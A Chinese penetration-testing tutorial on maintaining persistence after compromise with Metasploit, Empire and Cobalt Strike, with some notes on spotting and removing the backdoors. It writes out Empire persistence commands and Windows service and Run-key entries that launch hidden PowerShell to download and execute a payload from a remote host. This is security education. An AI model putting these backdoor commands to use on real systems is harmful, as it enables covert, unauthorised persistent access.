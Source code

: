 
# 0x00 前言
在渗透测试中，有三个非常经典的渗透测试框架----Metasploit、Empire、Cobalt Strike。<br />那么，通过漏洞获取到目标主机权限后，如何利用框架获得持久性权限呢？


# 0x01 MSF权限维持
使用MSF维持权限的前提是先获得一个_meterpreter_  shell，通过_meterpreter_ shell获取持久性shell的方法有两种：

**Persistence模块**<br />通过启动项启动(persistence)的方式，在目标机器上以反弹回连。<br />![privilege-3-1.png](../../_img\05-应急响应/1656919716270-96dc5c8c-68c1-44a6-980f-2d88f2354888.png)

```
-U：设置后门在用户登录后自启动。该方式会在HKCU\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。推荐使用该参数；
-X：设置后门在系统启动后自启动。该方式会在HKLM\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。由于权限问题，会导致添加失败，后门将无法启动。
-S：作为服务自动启动代理程序（具有SYSTEM权限）
```

生成的相关文件位置 ：
```
# 后门文件位置：
C:\Windows\Temp
C:\Users\Administrator\AppData\Local\Temp
# 注册表位置：
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\
HKLM\Software\Microsoft\Windows\CurrentVersion\Run\
```
![privilege-3-2.png](../../_img\05-应急响应/1656919723991-c61929f2-a16d-41fa-8f92-8d041c2d8824.png)

**Metsvc 模块**<br />通过服务(metsvc)启动的方式，在目标机器启动后自启动一个服务，等待连接。<br />![privilege-3-3.png](../../_img\05-应急响应/1656919731169-85bcbf34-9b43-4714-8a42-83458514b2e5.png)

后门排查：目标主机上开启了一个Meterpreter服务。<br />![privilege-3-4.png](../../_img\05-应急响应/1656919737191-af7f3d18-7eb1-49f5-aa7c-d44e12251bbc.png)


# 0x02 Empire 权限维持
Empire的persistence模块提供了18种权限维持的方法，大致可以分为四类，即<br />![privilege-3-17.png](../../_img\05-应急响应/1656919744796-75d54336-8695-4264-a6dd-a6ccf0220420.png)

| elevated（管理权限） | misc（杂项） | powerbreach | userland（用户权限） |
| --- | --- | --- | --- |
| registry* | add_netuser | deaduser | backdoor_lnk |
| schtasks* | add_sid_history* | eventlog* | registry |
| wmi* | debugger* | resolver | schtasks |
| wmi_updater* | disable_machine_acct_change* |  |  |
|  | get_ssps |  |  |
|  | install_ssp* |  |  |
|  | memssp* |  |  |
|  | skeleton_key* |  |  |


**注册表**
```
(Empire: agents) > agents
(Empire: agents) > interact URL3FZBV
(Empire: URL3FZBV) > usemodule persistence/elevated/registry*
(Empire: powershell/persistence/elevated/registry) > set Listener test
(Empire: powershell/persistence/elevated/registry) > execute
```
![privilege-3-5.png](../../_img\05-应急响应/1656919755446-f36c5b0d-6180-4b8c-8e67-80dda88a9a48.png)

因为是开机启动，所以会弹个黑框，之后还会弹出注册表添加的powershell启动项的框，在注册表位置如下：<br />![privilege-3-5.png](../../_img\05-应急响应/1656919762032-3b631208-55f7-4682-8940-c1ca92ef5797.png)

**计划任务**
```
(Empire: agents) > interact 9NZ2RWBC
(Empire: 9NZ2RWBC) > usemodule persistence/elevated/schtasks*
(Empire: powershell/persistence/elevated/schtasks) > set Listener test
(Empire: powershell/persistence/elevated/schtasks) > set DailyTime 22:50
(Empire: powershell/persistence/elevated/schtasks) > execute
```
![privilege-3-7.png](../../_img\05-应急响应/1656919769393-be848a7f-d2c2-46d5-a5b4-0e468b03b71f.png)

在任务计划程序库可以看到-任务为Updater-启动程序如下可以到为powershell<br />![privilege-3-8.png](../../_img\05-应急响应/1656919777046-84f81dfb-60cb-4852-8051-758779a59b83.png)

**wmi**
```
(Empire: agents) > interact 9NZ2RWBC
(Empire: 9NZ2RWBC) > usemodule persistence/elevated/wmi
(Empire: powershell/persistence/elevated/wmi) > set Listener test
(Empire: powershell/persistence/elevated/wmi) > run
```
![privilege-3-9.png](../../_img\05-应急响应/1656919783632-c0a02051-abdc-478e-8d04-af51eef389a5.png)

如何清除后门，最简单的方法就是使用Autoruns，选择WMI选项卡，右键就可以删除恶意后门。<br />![privilege-3-10.png](../../_img\05-应急响应/1656919788421-8d1cda42-ef7c-4da0-a92d-51dab26c30b7.png)


# 0x03 Cobalt Strike权限维持
通过Cobalt Strike拿到一个shell，留后门的方法有很多，下面介绍两种比较常见的无文件、自启动后门。

从Cobalt Strike菜单栏，Attacks--Web Drive-by--Scaripted Web Delivery，生成powershell后门。<br />![privilege-3-11.png](../../_img\05-应急响应/1656919809466-1b73a36f-3f77-4840-996e-4e0805cf6f7c.png)

根据需要可以自己选择，填写所需参数默认端口是80（需要注意的就是不要使用重复端口），Type选择powershell。<br />![privilege-3-12.png](../../_img\05-应急响应/1656919814722-ee9a6b9a-d8f6-4daf-9e9b-c5a020e17897.png)

点击Launch后，返回powershell远程下载执行命令。<br />![privilege-3-13.png](../../_img\05-应急响应/1656919819827-99e99cee-aa66-47fa-9237-59a0a81ee509.png)

**服务自启动后门**
```
sc create "Name" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\""
sc description  Name "Just For Test"   //设置服务的描述字符串
sc config Name start= auto             //设置这个服务为自动启动 
net start Name                         //启动服务
```

重启服务器后，成功返回一个shell。<br />![privilege-3-14.png](../../_img\05-应急响应/1656919826268-f0276d71-e107-4dc8-80fa-d2dc46a02856.png)

**注册表自启动**<br />在windows启动项注册表里面添加一个木马程序路径，如：
```
beacon>getsystem
beacon>shell reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /t REG_SZ /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8080/a'))\"" /f
```


账号注销后，重新登录，界面上会出现powershell快速闪过消失，成功返回shell。<br />![privilege-3-14.png](../../_img\05-应急响应/1656919840156-b45f8cf6-c2b8-427f-9a35-75ee423b17ad.png)


注册表还有哪些键值可以设置为自启动：
```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

---


# 0x04 结束语
本文简单介绍了通过三大渗透框架进行权限维持的几种方法，了解攻击者常用的渗透框架及后门技术，有助于更好地去发现并解决服务器安全问题。

